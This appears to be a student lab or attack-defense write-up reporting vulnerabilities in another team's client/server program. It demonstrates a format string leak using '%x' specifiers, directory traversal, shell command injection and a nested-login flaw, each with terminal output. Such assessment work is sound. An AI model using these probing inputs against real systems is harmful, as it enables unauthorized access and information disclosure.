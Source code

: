 ## Team 8


### Format string

* The format string vulnerability is on the client side when the client prints out where the program is trying to connect to.
The following exploit shows arbitrary read.

```
mc08 86 $ ./client %x%x%x%x 31337
Connecting to 005dbf42c05e2ef700 : 31337
inet_pton error occured
: Success
mc08 87 $
```


### Directory traversal

* There is no directory structure implemented and the client can traverse anywhere he wishes to.
```
$ login root
$ pass root
Welcome!
$ ls
client
server
sploit.conf
cd /u
$ ls
$ 
ls (null)
antor
data
scratch1
u12
u13
u24
u4
u6
u7
u90
u99
```

###   Command injection

* All commands are passed to shell?
```
$ login root
$ pass root
Welcome!
$ ps
  PID TTY          TIME CMD
23742 pts/4    00:00:00 bash
26886 pts/4    00:00:17 server
26893 pts/4    00:00:00 ps
rm
$ 
rm: missing operand
Try 'rm --help' for more information.
$ 

```

### Design Bugs

Only listing those which I found interesting

* Loginception
```
login root
$ pass root
Welcome!
$ whoami
root
$ login Acidburn
$ pass CrashOverride
Welcome!
$ whoami
Acidburn
$ w
Acidburn
root
$ logout
Logged out...
$ whoami
root
$ w
root
```
